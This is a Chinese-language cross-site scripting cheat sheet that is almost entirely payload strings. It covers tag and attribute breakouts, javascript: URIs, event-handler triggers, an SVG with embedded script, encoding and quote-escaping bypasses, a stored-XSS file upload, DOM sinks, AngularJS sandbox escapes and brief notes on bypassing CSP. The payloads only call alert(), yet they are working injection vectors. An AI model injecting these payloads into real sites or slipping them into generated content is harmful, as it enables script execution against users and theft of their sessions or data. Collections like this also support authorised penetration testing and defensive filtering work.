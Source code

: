 ⚠️要么闭合标签，要么闭合引号⚠️  

## 常用POC:
- `"><script>alert(1)</script>`  
- `<img src=1 onerror=alert(1)>`  
- `" autofocus onfocus=alert(1) x="`  
- `<a href="javascript:alert(1)">`  
- `javascript:alert(1);`  
JavaScript伪协议，超链接的地方就可能会存在
- `"><svg onload=alert(1)>`  
- `<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>`  
- `'-alert(1)-'`  
单引号作用：跳出前一个js

## 编码绕过POC：
- `&apos;-alert(1)-&apos;`  
- `';alert(1)//`
- 当单引号被转义时  
` \\';alert(1)// `
- 有引号处理文字时,如：var input='payload';  
` ${alert(1)} `
- url编码  
` %27%2dalert(1)%2d%27 `  
`%3Ca%20hREf%20%3D%20%27javasCriPt%3Aalert(%2Fxss%2F)%27%3Eclick%20me!%3C%2Fa%3E` javascript伪协议  

## 事件执行触发POC:
- accesskey:设置快捷键  
`<a href="url" accesskey="c">alert()</a>` ctrl+shift+c触发
- mouseover:鼠标移动  
`<span title="" onmouseover="alert(1)">" onmouseover="alert(1)"</span>`
- click:单击  
`<span title="" onclick="alert(1)">" onclick="alert(1)"</span>`

## SVG
```
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
	<circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
	<script>alert(1)</script>
</svg>
```

## 存储型XSS
上传文件修改为 `.html` ，内容为 `<img src=1 onerror=alert(document.domain)>`

## DOM XSS出现位置函数
`document.write、location.search、eval（）、location、someDOMElement.innerHTML/uterHTML/insertAdjacentHTML/onevent`

## 沙箱逃逸
- `toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`
- `<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">`
- `{{$on.constructor('alert(1)')()}}`

## 绕过CSP
- 悬空标记注入，指定url地址后面用？跟参数
- 修改响应包中CSP指令，覆盖现有规则script-src等
